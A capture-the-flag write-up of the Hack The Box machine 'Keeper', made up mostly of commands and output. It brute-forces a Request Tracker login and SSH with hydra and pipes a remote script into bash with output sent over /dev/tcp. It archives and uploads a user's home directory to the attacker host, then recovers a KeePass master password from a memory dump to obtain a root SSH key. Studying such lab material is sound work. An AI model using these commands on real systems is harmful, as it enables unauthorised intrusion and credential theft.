









# HTB: Keeper

Starting with an nmap:

```bash
$ nmap -oA recon/nmap/quick $TARGET
Starting Nmap 7.93 ( https://nmap.org )
Nmap scan report for 10.10.11.227
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.24 seconds
```

We got a website. Let’s take a look.

```bash
$ firefox http://$TARGET &
```



We’re directed to `tickets.keeper.htb/rt/`. Let’s add `keeper.htb` and `tickets.keeper.htb` to `/etc/hosts` since there’s no dns sever to resolve the domain for us.

```bash
$ sudo bash -c "echo ${TARGET} keeper.htb tickets.keeper.htb >> /etc/hosts"
```

Now following the link we get to a Request Tracker login panel.



Since this seems to be a generic open source thing let’s see if there are any known vulnerabilities for our version.



Quite a few vulnerabilities but no obvious RCE vector. Let’s run hydra and sql map in the background + vhost bust and google some more.

```bash
$ hydra -L /opt/SecLists/Usernames/top-usernames-shortlist.txt -P /opt/SecLists/Passwords/darkweb2017-top10000.txt "tickets.keeper.htb" http-post-form "/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:Your username or password is incorrect"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 169983 login tries (l:17/p:9999), ~10624 tries per task
[DATA] attacking http-post-form://tickets.keeper.htb:80/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:Your username or password is incorrect
[80][http-post-form] host: tickets.keeper.htb   login: root   password: password

 ... snip ...
$ gobuster vhost -u http://keeper.htb/ -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o recon/vhostbust
 ... nothing interesting ...
$ sqlmap --forms --level 5 -risk 3 -u http://tickets.keeper.htb/rt/NoAuth/Login.html
 ... nothing interesting ...
```

And instantly hydra returns a successful login! Lots of pages and options here but after digging for a bit we find a modify user page with some interesting details.



Since we have a password and a user now let’s run hydra on ssh to see if we can get a login (Doesn’t make much sense to fuzz the app anymore, we’re root).

```BASH
$ echo "lnorgaard" >> loot/leakedUsers
$ echo "root" >> loot/leakedUsers
$ echo "password" >> loot/leakedPass
$ echo 'Welcome2023!' >> loot/leakedPass
$ cat loot/leakedUsers /opt/SecLists/Usernames/top-usernames-shortlist.txt > /tmp/users
$ cat loot/leakedPass /opt/SecLists/Passwords/darkweb2017-top10000.txt > /tmp/passlist
$ hydra -L /tmp/users -P /tmp/passlist $TARGET ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180000 login tries (l:18/p:10000), ~11250 tries per task
[DATA] attacking ssh://keeper.htb:22/
[22][ssh] host: keeper.htb   login: lnorgaard   password: Welcome2023!
 ... snip ...
```

And we got ssh access. Let’s login and run linpeas in the background as we start manually looking around.

```bash
$ py -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

start a listener to capture linpeas output:

```bash
$ nc -lp 9002 | tee recon/linpeaoutput
```

and fire off linpeas

```bash
$ curl 10.10.14.30:8000/p | bash &> /dev/tcp/10.10.14.30/9001 &
```

It seems there are quite a few interesting files in the home directory of `lnorgaard`:

(Some of these were created by other people solving the box)

```bash
lnorgaard@keeper:~$ ls -lah
total 567M
drwxr-xr-x 6 lnorgaard lnorgaard 4.0K Oct 12 20:47 .
drwxr-xr-x 3 root      root      4.0K May 24 16:09 ..
lrwxrwxrwx 1 root      root         9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard  220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard 3.7K May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard 4.0K May 24 16:09 .cache
drwx------ 3 lnorgaard lnorgaard 4.0K Oct 12 20:36 .gnupg
-rwxr-x--- 1 lnorgaard lnorgaard 242M May 24 12:51 KeePassDumpFull_1.dmp
-rwxr-x--- 1 lnorgaard lnorgaard 242M May 24 12:51 KeePassDumpFull.dmp
drwxrwxr-x 6 lnorgaard lnorgaard 4.0K Oct 12 17:59 ovlcap
-rwxr-x--- 1 lnorgaard lnorgaard 3.6K May 24 12:51 passcodes_1.kdbx
-rwxr-x--- 1 lnorgaard lnorgaard 3.6K May 24 12:51 passcodes.kdbx
-rw------- 1 lnorgaard lnorgaard  807 May 23 14:43 .profile
-rw-r--r-- 1 root      root       84M Oct 13 00:14 RT30000.zip
drwx------ 2 lnorgaard lnorgaard 4.0K Oct 12 18:03 .ssh
-rw-r----- 1 root      lnorgaard   33 Oct 12 07:33 user.txt
-rw-r--r-- 1 root      root        39 Jul 20 19:03 .vimrc
```

Let’s package them and send them over to our box for a closer inspection.

```bash
lnorgaard@keeper:~$ tar -czvf /tmp/archive.tar.gz .
./
./user.txt
./.bash_logout
./.bashrc
./.ssh/
./.ssh/known_hosts
./.ssh/authorized_keys
./.ssh/known_hosts.old
./.vimrc
./KeePassDumpFull_1.dmp
./ovlcap/
./ovlcap/merge/
./ovlcap/work/
./ovlcap/lower/
./ovlcap/upper/
./KeePassDumpFull.dmp
./.cache/
./.cache/motd.legal-displayed
./.bash_history
./RT30000.zip
./passcodes.kdbx
./.gnupg/
./.gnupg/private-keys-v1.d/
./.gnupg/pubring.kbx
./.gnupg/trustdb.gpg
./.profile
./passcodes_1.kdbx

 ... some of these are likely from other users cracking the box ...

lnorgaard@keeper:~$ which python3
/usr/bin/python3
lnorgaard@keeper:~$ python3 -c 'import requests;requests.post("http://10.10.14.5:8000/upload",files={"files":open("/tmp/archive.tar.gz","rb")})'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
ModuleNotFoundError: No module named 'requests'
```

It seems the target doesn’t have the requests module installed. That’s fine we’ll use curl instead.

```bash
lnorgaard@keeper:~$ which curl
/usr/bin/curl
lnorgaard@keeper:~$ curl -X POST http://10.10.14.5:8000/upload -F 'files=@/tmp/archive.tar.gz'
lnorgaard@keeper:~$ md5sum /tmp/archive.tar.gz
4e48d535f3a7bd4f95151780f0e38a2f  /tmp/archive.tar.gz
$ md5sum archive.tar.gz
4e48d535f3a7bd4f95151780f0e38a2f archive.tar.gz
```

Checksums match; upload successful! Let’s take a closer look at the keepass DBs.

```bash
$ kpcli
KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open passcodes.kdbx
Please provide the master password: *************************
Couldn't load the file passcodes.kdbx: Missing pass

kpcli:/> open passcodes_1.kdbx
Please provide the master password: *************************
Couldn't load the file passcodes_1.kdbx: Missing pass
```

Seems like both databases require a master password. Let’s run hashcat and ask google if there’s anything interesting that can be done with the dump files.

```bash
$ keepass2john passcodes.kdbx | grep -o "$keepass$.*" >  hashes
$ hashcat -m 13400 hashes rockyou.txt
 ... doesn't end up cracking ...
```

Googling “keepass dump” returns a link to an interesting POC https://github.com/vdohney/keepass-password-dumper. We don’t know the version of keepass used but let’s try running the exploit anyway.

```bash
$ dotnet run loot/lnorgaardHome/KeePassDumpFull.dmp
 ... snip ...
Password candidates (character positions):
Unknown characters are displayed as "�?"
1.:	�?
2.:	ø, �?, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:	d,
4.:	g,
5.:	r,
6.:	ø,
7.:	d,
8.:	,
9.:	m,
10.:	e,
11.:	d,
12.:	,
13.:	f,
14.:	l,
15.:	ø,
16.:	d,
17.:	e,
Combined: �?{ø, �?, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Got something. Very norse looking password but doesn’t seem complete. Bruteforcing the remaining letters may take a while as the word list will have to contain norse alphabet letters as well. Let’s just toss what we got into google and see if there’s anything similar looking and build a wordlist.



Seems like the main candidate is `Rødgrød med fløde`. The second letter seems to be in the suggested potential list, but the first one is unknown. We’ll have to try lower and upper case.

```bash
$ kpcli

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open passcodes.kdbx
Please provide the master password: *************************
Couldn't load the file passcodes.kdbx: The database key appears invalid or else the database is corrupt.
kpcli:/> open passcodes.kdbx
Please provide the master password: *************************
kpcli:/>
```

`Rødgrød med fløde` doesn’t work but `rødgrød med fløde` does! Let’s dump the db with https://keepassxc.org.

Root putty key here!



Some stuff in the recycle bin but not very interesting.





Now we can use either the `puttygen` command from the `putty-tools` package to convert the keys into openssh format or use wine [wine](https://www.winehq.org/) to run the windows version of puttygen and use the gui.



Now that we have the key we can try logging in as root using ssh.

```bash
$ chmod 600 exportedRootKey
$ ssh root@keeper.htb -i exportedRootKey
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
root@keeper:~#
```

And we have root!
